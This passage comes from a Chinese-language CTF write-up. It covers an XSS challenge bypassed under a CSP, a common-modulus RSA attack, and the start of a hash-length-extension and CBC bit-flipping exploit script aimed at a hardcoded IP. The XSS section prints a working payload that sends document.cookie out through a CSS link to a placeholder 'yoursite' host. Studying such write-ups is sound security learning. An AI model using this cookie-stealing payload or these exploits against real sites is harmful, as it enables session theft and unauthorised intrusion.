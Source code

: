 ```python
}
adminSess.post(f"{SERVER}/install", data=data)

register("123123123", "1231231231")
```

然后就守株待兔吧 233  
![](https://i.loli.net/2019/03/21/5c93a61185745.png)


## HappyXss

这个算是比较简单的了, 直接用 `<iframe src=javascript:alert('xss');></iframe>` 就可以绕了  
不过需要注意下 CSP, `Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src *`  
用 `<img src=''>` 的方式来拿 cookie 是不行了, 但是注意 `style-src *`,  
可以通过 css 来拿 cookie, payload 这样  

```javascript
(function(){ css=document.createElement("link");css.setAttribute("rel","stylesheet");css.setAttribute("href","yoursite?a="+escape(document.cookie));document.getElementsByTagName("head")[0].appendChild(css);}())
```


## easy_rsa

共模攻击, 不过这里 e1, e2 不互质, 3 == gcd(e1, e2), 我们先把 e1, e2 都除以 3  
然后把除以三以后的 e1, e2 丢到脚本里跑, 把结果开三次方就可以了


## Sign_in_SemiHard

哈希长度拓展 + CBC 字节翻转, 直接上脚本吧, 不多说了  
因为时间有限所以有很多地方实现的很暴力, 233

```python
import hashpumpy
import remoteCLI
import string
from binascii import hexlify, unhexlify

BLOCK_LENGTH = 16
ZEROS = bytearray([0 for i in range(16)])
regToken = r'Your token is: ([0-9A-Za-z]{0,})'
regUsername = r'Sorry, your username\(hex\) ([0-9A-Za-z]{0,}) is inconsistent with given signature\.'


def xor(a, b):
    result = bytearray()
    for i in range(len(a)):
        result.append(a[i] ^ b[i])
    return result


unprintable = b""
for i in range(256):
    if chr(i) not in string.printable:
        unprintable += bytes([i])

cli = remoteCLI.CLI()
cli.connect("47.95.212.185", 38611)
cli.sendLine("1")
```
